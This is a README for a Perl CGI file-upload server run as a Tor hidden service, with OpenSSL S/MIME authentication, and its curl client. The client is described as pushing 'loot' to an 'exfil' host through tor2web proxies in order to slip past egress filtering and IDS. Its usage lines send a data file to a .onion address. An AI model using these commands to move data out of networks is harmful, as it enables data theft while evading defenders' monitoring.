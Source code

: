 # BLACK_HOLE

Is a perl cgi file upload web app that is built to function easily with 
curl and the use of html forms is not required or needed. It is made 
to be used as a TOR hidden service.

The difference of this cgi upload app from others is that 
it uses OpenSSL public key encryption for authentication. The 
purchase of a cert from a CA is not needed or recommened as those 
orginizations personal regard for you is dubious.

Since these certs are not used for establishing SSL sessions only for
file encryption. It is best in my opinion to create the keypair you need 
and only give out copies of the public key to the indivduals you 
personaly trust.

And by give I mean hand it to them, DONT email.

## Installing
The install process will get lighttpd through apt and configure it then 
place the cgi in the correct location.

You will also be prompted to input the authentication passphrase.

Run as root

```
root@null:~/black-hole# ./install-bh.sh
```
The private key is required to be in the directory /var/cp-data/auth/
for this cgi to function.


### Explanation

A breakdown of the cgi will follow but it still does not beat reading
the Perl cgi itself. Plus eventhough it's Perl I avoided using obscure 
code and kept it simple so that a sysadmin that doesn't program should 
be able to break it down after some reading.

To understand how the authentication is performed, I first have to point
out the folders in use by this cgi.

NOTE: These will be generated by the installer, you will be 
prompted for the passphrase.

The required folders are placed in /var/. 

```
         /var/cp-data/
                 └── auth/
                       ├── pphrase
                       └── private.pem
```

The owner for cp-data/ and it's subdirectories is "www-data".

cp-data/ is the main folder which will contain the uploaded data. The 
sub folder auth/ MUST contain the private key along with a passphrase
or a hash of a passphrase which is interpreted by the cgi as a string
to see if it matches with an authentication parameter posted to it.

keep this in mind.

The cgi has three parameters that need to be filled and each need to be 
processed successfully otherwise the cgi will exit. They are proccesed 
in a sequential manner.

NOTE: for those that do not wish to craft your own url requestes 
and wish to use a more automated method, see EVENT_HORIZON below.


## FIRST parameter
The first parameter is the plain-text or hashed passphrase that is 
encrypted by the corrisponding OpenSSL public key as any SMIME type with
public key encryption.

### OpenSSL smime data, example:

```
MIME-Version: 1.0
Content-Disposition: attachment; filename="smime.p7m"
Content-Type: application/x-pkcs7-mime; smime-type=enveloped-data; name="smime.p7m"
Content-Transfer-Encoding: base64

MIIBxgYJKoZIhvcNAQcDoIIBtzCCAbMCAQAxggFuMIIBagIBADBSMEUxCzAJBgNV
BAYTAkFVMRMwEQYDVQQIDApTb21lLVN0YXRlMSEwHwYDVQQKDBhJbnRlcm5ldCBX
aWRnaXRzIFB0eSBMdGQCCQDtan1KLnkXHjANBgkqhkiG9w0BAQEFAASCAQAH6f3L
VkTcrGI+oEwIm17wVW1XQTyjd4kxnFTGbc29dPsnW+bymAkzc0Xq9y2hv/+Mdd/i
QHW8m9Sry9jYXLO5mKp2LAEy4q3x6hM5XomV8elgm7ZNriVdWAYztVQ01I+3RnOo
5vqSy3iCfJ4/ecs5/RyE+JLG7269389NTMDigQOY/XqtFOB8dbeQolTanJev6Nxt
cvwapfxFGIs85QIFlQp9c2VP6KCFMk7h4Hyv03pJgWSR2hg7CDjzOfdMsi1WQ92P
TEYIi9n26XXiCUTMLCY8RqJsWlFvhyhW8PXXQy2kC7fn/I+ukcf+qtieEzGVCIOS
gWHEt5k6uWpt43pNMDwGCSqGSIb3DQEHATAdBglghkgBZQMEASoEEPxDoqLGhINJ
ZhF1cyVM0XyAEBLJ3nT17dVtx/E+k3lEw/8=
```

For this parameter to be completed successfully the cgi would have to 
decrypt the SMIME data with the private key and extract the 
passphrase/hash and match this to the passphrase/hash in the 
cp-data/auth/ folder. 


## SECOND parameter
The second parameter contains a one time use random key that is 
encrypted in the same manner as the first parameter(SMIME/AES). This 
one time use passphrase will be used to encrypt/decrypt symmenticly 
the data that is to be uploaded.

For this parameter to be completed successfully the cgi would have to
be able to decrypt this SMIME data with the privated key. The decrypted
passphrase is stored in the same directory as the data that is uploaded,
both share the same time stamp.


## THIRD parameter 
The third parameter will contain the encryped data to be uploaded.

This cgi was made to function in a environment without SSL/TLS session
encryption.



# EVENT_HORIZON

A client for one that wishes to upload to BLACK_HOLE. It performs 
the neccesary encryption on the files to be uploaded, then uses curl along 
with OpenSSL and the public key to generate a url post request that 
contains the three required parameters.

The trick is that on top of directly uploading to the cgi over the normal 
Internet. It also has the option to use proxies that serve as hidden service 
gateways such as tor2web. The idea behind it is that the LAN this client may 
be connecting from may have egress filtering rules (IDS/IDPS) that may interfere 
with tor traffic. So this manages to still use tor by first connecting to one 
of these proxies using regular HTTPS that then forward it to your hidden service 
over tor. 

The temporary password for symmetric encryption is generated with 
/dev/urandom and piped into a variable.

```
 TPASS=$(< /dev/urandom tr -dc _A-Z-a-z-0-9 | head -c 30 | base64)
```

Options avaliable by event-horizon client.
```

options:
   -k   location of the public key in pem format for use in encryption
   -t   use tor2web to use exfil hosted on hidden service (yes/no)
   -a   trusted passphrase on the server hosting the cgi perl file
   -d   location of the data file you wish to upload
   -u   full url to the perl cgi upload app, if hidden service place .onion url

usage examples:

without tor:
./event-horizon.sh -k public.pem -a pphrase -t no -d loot -u some_domain.com

using tor tor2web proxies:
./event-horizon.sh -k public.pem -a pphrase -t yes -d loot -u xaede7oiftahtz.onion

```


xor-function at
nightowlconsulting.com
